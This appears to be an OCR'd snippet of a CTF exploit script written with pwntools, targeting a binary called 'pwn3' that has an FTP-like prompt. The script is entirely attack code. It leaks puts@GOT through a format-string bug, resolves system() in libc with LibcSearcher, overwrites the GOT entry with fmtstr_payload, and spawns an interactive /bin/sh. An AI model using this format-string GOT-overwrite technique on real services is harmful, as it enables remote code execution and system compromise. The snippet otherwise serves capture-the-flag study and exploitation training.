 ```python
password()

## get the addr of puts
puts_got = pwn3.got['puts']

log.success('puts got : ' + hex(puts_got))

put('1111', '%8$s' + p32(puts_got))

puts_addr = u32(get('1111')[:4])



## get addr of system

libc = LibcSearcher("puts", puts_addr)

system_offset = libc.dump('system')

puts_offset = libc.dump('puts')

system_addr = puts_addr - puts_offset + system_offset

log.success('system addr : ' + hex(system_addr))



## modify puts@got, point to system_addr

payload = fmtstr_payload(7, {puts_got: system_addr})

put('/bin/sh;', payload)

sh.recvuntil('ftp>')

sh.sendline('get')

sh.recvuntil('enter the file name you want to get:')

##gdb.attach(sh)

sh.sendline('/bin/sh;')



## system('/bin/sh')

show_dir()

sh.interactive()

```
